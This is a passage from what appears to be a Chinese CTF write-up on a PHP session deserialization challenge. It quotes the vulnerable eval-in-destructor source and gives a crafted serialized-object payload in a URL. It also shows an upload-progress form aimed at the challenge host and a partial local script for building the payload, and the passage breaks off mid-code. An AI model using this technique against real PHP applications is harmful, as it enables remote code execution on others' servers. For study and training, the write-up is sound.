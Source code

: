 ```php
//flag.php
 <?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }

    function __destruct()
    {
        eval($this->mdzz);
    }
}

?>
```

可以看到index.php中为session的输入，形式为php_serialize，而flag.php中解析的形式为php，那么我们构造请求

```
localhost/index.php?a=|O:5:"OowoO":1:{s:4:"mdzz";s:14:"echo "hacker";";}
```



再去用这个构造精良的session访问flag.php时就会被错误的解析

键名解析为空，而键值解析为了 OowoO 的一个对象 成功执行代码执行

而看我们这个题的源码

发现并没有任何输入的地方 这时候又有

可以利用`Session Upload Progress`进行上传 参考资料如下   <https://secure.php.net/manual/en/session.upload-progress.php> 

我们构造一个文件，内容为

```
<form action="http://web.jarvisoj.com:32784/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>12345
```

然后用burp截取上传的数据包，然后我们只要修改其中的filename即可完成上传。 
 在本地创建一个.php文件用于生成我们需要的序列化代码

最后一步我们还需要本地生成 序列化代码

```php
<?php
ini_set('session.serialize_handler', 'php_serialize');
class OowoO
{
    public $mdzz='需要设置的代码';
    function __construct()
    {
        // $this->mdzz = 'phpinfo();';
    }

    function __destruct()
    {
        // echo $this->mdzz;
```